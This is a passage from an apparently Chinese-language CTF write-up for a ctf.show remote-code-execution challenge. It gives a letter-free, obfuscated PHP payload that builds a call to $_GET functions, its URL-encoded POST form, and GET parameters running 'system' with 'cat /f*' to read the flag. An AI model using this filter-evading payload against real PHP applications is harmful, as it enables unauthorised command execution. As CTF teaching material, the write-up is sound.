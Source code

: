 所以payload是下面这个，里面有`$`,`=`还需要url编码一下

```php
$___=((''/'').'')[''==_];$____=((''/'').'')[''==''];++$____;++$____;++$____;$_____=++$____;++$____;++$____;$______ = $____;++$___;++$___;++$___;++$___;++$___;$_______=++$___;$________='_'.$______.$_____.$_______;$$________[_]($$________[__]);
```

post发包，get传参命令执行`url?_=system&__=cat /f*`

```php
ctf_show=%24___%3D((''%2F'').'')%5B''%3D%3D_%5D%3B%24____%3D((''%2F'').'')%5B''%3D%3D''%5D%3B%2B%2B%24____%3B%2B%2B%24____%3B%2B%2B%24____%3B%24_____%3D%2B%2B%24____%3B%2B%2B%24____%3B%2B%2B%24____%3B%24______%20%3D%20%24____%3B%2B%2B%24___%3B%2B%2B%24___%3B%2B%2B%24___%3B%2B%2B%24___%3B%2B%2B%24___%3B%24_______%3D%2B%2B%24___%3B%24________%3D'_'.%24______.%24_____.%24_______%3B%24%24________%5B_%5D(%24%24________%5B__%5D)%3B
```
![2](/medias/show-rce/2.png)


## RCE挑战3

